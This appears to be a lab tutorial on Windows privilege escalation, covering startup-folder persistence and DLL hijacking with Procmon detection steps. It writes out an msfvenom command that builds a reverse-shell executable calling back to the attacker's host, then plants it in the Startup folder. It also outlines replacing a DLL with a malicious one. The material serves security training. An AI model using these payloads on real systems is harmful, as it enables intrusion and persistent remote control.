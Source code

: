2. Open an additional command prompt and type: 
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[tun0 IP] LPORT=53  -f exe -o y.exe
```
3. Copy the generated file, `y.exe`, to the Windows VM.

### Windows VM

1. Place `y.exe` in `"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"`.

### Kali VM

1. Wait for a reverse shell on your kali machine.

# <span style="color:lightblue">DLL Hijacking</span>

## <span style="color:lightgreen">Methodology</span>
Windows applications usually load DLL files when started. It may happen that a DLL file does not exist and the application is unable to load it. Nevertheless, an application will continue to execute as long as the missing DLL is not needed.  
In case the application uses a relative and not an absolute file path, Windows searches for the file in the following directories:

-   The directory from which the application is loaded
-   `C:\Windows\System32`
-   `C:\Windows\System`
-   `C:\Windows`
-   The current working directory
-   Directories in the system PATH environment variable
-   Directories in the user PATH environment variable

### Steps taken to perform DLL hijacking are outlined below.

1.  Identify vulnerable application and location
2.  Identify applications PID
3.  Identify vulnerable DLLs that can be hijacked
4.  Use MSFVenom or other payload creation tools to create a malicious DLL
5.  Replace the original DLL with the malicious DLL
6.  Profit

## <span style="color:lightgreen">Detection</span>

###  Windows VM (RDP is required)
1. Transfer [Procmon.exe](https://strontic.github.io/xcyclopedia/library/Procmon.exe-EB2A0D7AC44B9B66E884EE5087305ACC.html) on the Windows VM
2. Right click on `Procmon.exe` and select `'Run as administrator'` from the menu.
3. In procmon, select `"filter"`.  From the left-most drop down menu, select `'Process Name'`.
4. In the input box on the same line type: `dllhijackservice.exe`
5. Make sure the line reads “Process Name is `dllhijackservice.exe` then Include” and click on the `'Add'` button, then `'Apply'` and lastly on 'OK'.
6. Next, select from the left-most drop down menu `'Result'`.
7. In the input box on the same line type: `NAME NOT FOUND`.
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the `'Add'` button, then `'Apply'` and lastly on 'OK'.
